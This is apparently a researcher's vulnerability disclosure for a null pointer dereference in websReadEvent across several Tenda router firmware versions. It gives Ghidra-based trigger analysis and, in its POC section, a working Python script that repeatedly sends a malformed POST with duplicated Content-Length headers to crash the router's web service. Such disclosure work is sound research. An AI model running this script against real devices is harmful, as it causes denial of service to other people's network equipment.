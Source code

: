 # Overview

| Firmware Name | Firmware Version  | Download Link                                                                                                   |
|---------------|-------------------|-----------------------------------------------------------------------------------------------------------------|
| FH451         | V1.0.0.9          | https://www.tenda.com.cn/download/detail-1629.html                                                              |
| FH451         | V1.0.0.7          | https://www.tenda.com.cn/download/detail-1594.html                                                              |
| FH451         | V1.0.0.5          | https://www.tenda.com.cn/download/detail-1375.html                                                              |
| FH1201        | V1.2.0.14(408)_EN | https://www.tendacn.com/download/detail-3322.html                                                               |
| FH1201        | V1.2.0.8(8155)    | https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-FH1201-Router-Firmware-1208-8155.shtml |
| FH1202        | V1.2.0.14(408)    | https://www.tenda.com.cn/download/detail-2079.html                                                              |
| FH1202        | V1.2.0.14(408)_EN | https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-FH1202-Router-Firmware-12014408.shtml  |
| FH1202        | V1.2.0.9          | https://www.tenda.com.cn/download/detail-1810.html                                                              |
| FH1206        | V1.2.0.8(8155)    | https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-FH1206-Router-Firmware-1208-8155.shtml |

# Vulnerability details
A null pointer dereference in the `websReadEvent` function, where the `strlen` function is invoked with a null pointer in Tenda FH1201 V1.2.0.8(8155) , allows remote attackers to cause the backend system denial of service via sending a specific packet.

## 1. Vulnerability Trigger Location
The following vulnerability analysis and explanation are based on the `FH1201` router, with firmware version `V1.2.0.8(8155)`. The vulnerability trigger and analysis methods for other models are similar.

The vulnerability trigger location is at the `strlen` function call under the `websReadEvent` function, at address 0x430858. For easier analysis, I referred to the GoAhead 2.5 source code from https://github.com/ehlalwayoUk/goahead/tree/master and modified the variable names in Ghidra accordingly.
![Vulnerability Trigger Location](./assets/Trigger.png)

## 2. Conditions to Satisfy
- In the websUrlParse function, the `?` in POST /goform/GetIPTV?fgHPOST/goform/SysToo allows `strchr` at `4237ac` to get the index of the `?`. Referring to the GoAhead source code, it can be seen that the information after `?` is stored in `wp->query`. ![websUrlParse](./assets/websUrlParse.png) ![websUrlParse](./assets/websurlparse_source.png.png) 

- **Content-Length** must be written twice.
    - The first `Content-Length` should be `>= 1`. This is necessary to set `param_1 + 0xe4(wp->flags) |= 0x400` and call `websSetVar`  to set `CONTENT_LENGTH` value..
    ![else_content_length](./assets/else_content_length.png)
    - The second `Content-Length` is to set `clen = 0`. It set `param_1 + 0xec = 0`.
- After that, an empty line (`\r\n`) is needed to ensure the final `text` is empty.In the `socketGets` function, reading an isolated \r\n sets `nbytes = 0`, and as a result, `*text = 0`. The corresponding assembly location is at `0x419f5c`.![socketGets](./assets/socketGets.png)

- Due to conditions such as nbytes = 0 being met, wp->state = 8 is finally set in the websGetInput function at address 0x431264.![wp_state_8](./assets/wp_state_8.png)

- At address `0x430648` in the websReadEvent function, the value of `local_18` is obtained as `wp->state`, which is 8.![getstate](./assets/getstate.png)

- As a result, in the `websReadEvent` function, because `local_18 = 8` and there is content in `wp->query`, both the `if` and `else if` conditions are not satisfied, leading to the else branch being executed, which triggers the vulnerability.`strlen` is called with a null pointer, which leads to a segmentation fault when dereferenced internally.![ivar2_8](./assets/ivar2_8.png)


# POC

```python
import socket

host = "192.168.1.100"
port = 80
times = 0
while 1:
    times += 1
    print("times:"+str(times))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    request = (
        "POST /goform/GetIPTV?fgHPOST/goform/SysToo HTTP/1.1\r\n"
        "Content-Length:1\r\n"
        "Content-Length:# \r\n"
        "\r\n"
    )
    s.send(request.encode())
    response = s.recv(4096)
    print(response.decode())
    s.close()
```

# Vulnerability Verification Screenshot
## 1. FH451 V1.0.0.9          
![](./FH451-V.1.0.0.9/poc.png)

## 2. FH451 V1.0.0.7 
![](./FH451-V.1.0.0.7/poc.png)         

## 3. FH451 V1.0.0.5 
![](./FH451-V.1.0.0.5/poc.png)         

## 4. FH1201 V1.2.0.14(408)_EN 
![](./FH1201-V1.2.0.14-408-EN/poc.png)

## 5. FH1201 V1.2.0.8(8155)    
![](./FH1201-V1.2.0.8-8155/poc.png)

## 6. FH1202 V1.2.0.14(408)    
![](./FH1202-V1.2.0.14-408/poc.png)

## 7. FH1202 V1.2.0.14(408)_EN 
![](./FH1202-V1.2.0.14-408-EN/poc.png)

## 8. FH1202 V1.2.0.9          
![](./FH1202-V1.2.0.9/poc.png)

## 9. FH1206 V1.2.0.8(8155)     
![](./FH1206-V1.2.0.8-8155/poc.png)

# Discoverer

The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.
